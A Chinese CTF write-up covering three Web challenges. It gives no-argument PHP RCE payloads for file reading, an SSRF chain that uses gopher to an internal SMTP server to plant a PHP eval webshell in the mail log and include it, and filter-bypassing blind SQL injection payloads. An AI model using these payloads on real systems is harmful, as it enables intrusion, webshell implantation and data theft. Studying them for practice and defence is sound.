这次比赛Web除了最后一题基本都是送分题，甚至还有完全的原题，有点想吐槽一下出题人
decade

参考bytectf boring_code
实现无参数rce
之前的payload：
1 | readfile(end(scandir(chr(time(chdir(next(scandir(chr(time()))))))))); |
这里过滤了time，readfile
（1）获取符号.：使用crypt函数加密序列化后的数组字符串：
1 | crypt(serialize(array())) |

一定概率下符号.会出现在字符串最末尾，然后用strrev反转字符串后，ord函数处理字符串时将字符串第一个字符转换为 ASCII 编码
1 | chr(ord(strrev(crypt(serialize(array()))))) |

然后就是正常的scandir扫描当前目录，next获取..，然后chdir切换到上一级目录后
同样方法再次获取.
1 | end(scandir(chr(ord(strrev(crypt(serialize(array(chdir(next(scandir(chr(ord(strrev(crypt(serialize(array())))))))))))))))) |

（2）读取文件：使用file函数，但是返回内容为数组，然后用die输出数组元素
最后payload：
1 | die(next(file(end(scandir(chr(ord(strrev(crypt(serialize(array(chdir(next(scandir(next(scandir(chr(ord(strrev(crypt(serialize(array()))))))))))))))))))))); |

babyt5
原题：https://www.jianshu.com/p/804d95f6d6fb

（1）curl_exec函数自带一次url解码，于是用url二次编码绕过strpos的过滤
（2）/proc/self/cwd指向当前路径
读取flag.php：
1 | ?x=file:///proc/self/cwd/flag.%2570hp |

读取/etc/hosts

扫描内网地址：172.18.0.2

存在LFI
另外还存在25端口：

参考原题wp中：gopher打smtp，在日志中写入一句话，然后包含日志getshell
生成payload

把payload中地址改成172.18.0.2，再编码下生成payload：
1 | ?x=gopher%3a%2f%2f172%2e18%2e0%2e2%3a25%2f_MAIL%2520FROM%3a%253Csomnus%2540qq%2ecom%253E%250ARCPT%2520To%3a%253C%253F%2570hp%2520eval%2528%2524_GET%255B%2527somnus%2527%255D%2529%253B%2520%253F%253E%250ADATA%250AFrom%3a%253Csomnus%2540qq%2ecom%253E%250ASubject%3atest%250AMessage%3atest%250A%2e |
伪协议读一下日志：/var/log/mail.log

看到一句话已经成功写入
但是题目环境貌似有问题，包含后执行不了shell，不过题目也没改，最后flag在/Th7s_Is_Flag ，伪协议读取一下就行


easy_sql
注入题，过滤and，逗号，，or，union select等
可以通过mysql.innodb_table_stats注出表名fl111aa44a99g：
1 | 1' %26%26 ascii(mid((select group_concat(table_name) from mysql.innodb_table_stats) from " + str(i) + "))=" + str(j) + "%23 |
但是不知道列名，参考：https://nosec.org/home/detail/2245.html
最终payload：
1 | 1' %26%26 ascii(mid((select `3` from (select * from (select 1)a join (select 2)b join (select 3)c union/**/select * from fl111aa44a99g)a limit 1 offset 1) from "+str(i)+"))="+str(j)+"%23 |
exp：
1 | import requests |
